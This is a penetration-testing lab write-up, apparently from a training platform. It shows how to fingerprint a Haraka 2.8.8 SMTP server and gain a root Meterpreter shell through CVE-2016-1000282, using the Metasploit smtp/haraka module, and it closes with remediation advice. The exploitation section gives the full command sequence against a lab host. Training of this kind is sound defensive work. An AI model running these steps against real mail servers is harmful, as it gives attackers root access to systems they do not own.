







# Vulnerable SMTP Server

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.221.73.3) — Ubuntu 16.04, Haraka smtpd 2.8.8<br>
**Attacker:** 192.221.73.2 (Kali)<br>
**Objective:** Fingerprint the service and exploit it for a shell.

## 1. Executive Summary

The target runs the **Haraka** Node.js SMTP server (2.8.8), vulnerable to a command
injection in its attachment processing (CVE-2016-1000282). Metasploit's `smtp/haraka` module
exploits it and returns a **root** Meterpreter session.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.221.73.3
services
```







Port 25 runs **Haraka smtpd 2.8.8**.



## 3. Exploitation

```bash
search haraka
use exploit/linux/smtp/haraka
set SRVPORT 8080
set email_to root@demo.ine.local
set RHOSTS 192.221.73.3
exploit
```





A root Meterpreter session opens.

```
sysinfo    # Ubuntu 16.04
getuid     # root
```



## 4. Remediation Recommendations

1. **Upgrade Haraka** past the vulnerable release (CVE-2016-1000282) and keep Node.js
   dependencies patched.
2. **Run the mail service with least privilege**, not as root, and sandbox attachment
   processing.
3. **Restrict and monitor SMTP** exposure; filter/validate inbound attachments.
